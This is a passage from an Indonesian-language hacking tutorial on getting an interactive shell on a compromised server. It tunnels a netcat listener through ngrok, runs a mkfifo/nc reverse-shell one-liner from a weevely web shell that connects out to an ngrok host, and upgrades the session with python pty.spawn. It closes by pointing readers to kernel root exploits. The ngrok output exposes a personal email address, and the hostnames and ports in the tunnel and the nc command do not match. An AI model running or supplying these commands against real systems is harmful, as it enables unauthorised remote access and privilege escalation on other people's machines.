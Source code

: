 ```bash
$ ./ngrok tcp 45456
```

```bash
ngrok by @inconshreveable
(Ctrl+C to quit)

Session Status            	reconnecting (session closed)
Account                   	danang.heriyadi19@gmail.com (Plan: Free)
Version                   	2.3.35
Region                    	United States (us)
Web Interface             	http://127.0.0.1:4040
Forwarding                	tcp://2.tcp.ngrok.io:14953 -> localhost:31337

Connections               	ttl 	opn 	rt1 	rt5 	p50 	p90
                            1   	0   	0.00	0.00	24.80   24.80
```

Di output ngrok diatas didapatkan domain public kalian adalah **2.tcp.ngrok.io** dengan port **14953**.

Pada terminal 1 di kali linux kalian yang menjalankan weevely bisa kita lakukan proses upgrade shell ke TTY terminal dengan perintah berikut :

```bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.tcp.ngrok.io 12582 >/tmp/f
```

Kemudian silahkan buka terminal 2 dimana kalian sebelumnya menjalankan netcat akan muncul output berikut :

```bash
/bin/sh: 0: can't access tty; job control turned off$
```

Kita sudah berhasil mendapatkan akses terminal interaktif dengan metode Reverse TCP. Langkah terakhir agar bisa mendapatkan shell PTY kita bisa jalankan perintah berikut :

```bash
$ python -c "import pty; pty.spawn('/bin/bash');"
```

Setelah proses ini kalian sudah bisa untuk berusaha mendapatkan akses yang lebih tinggi misalnya dengan mencoba berbagai kernel root exploit.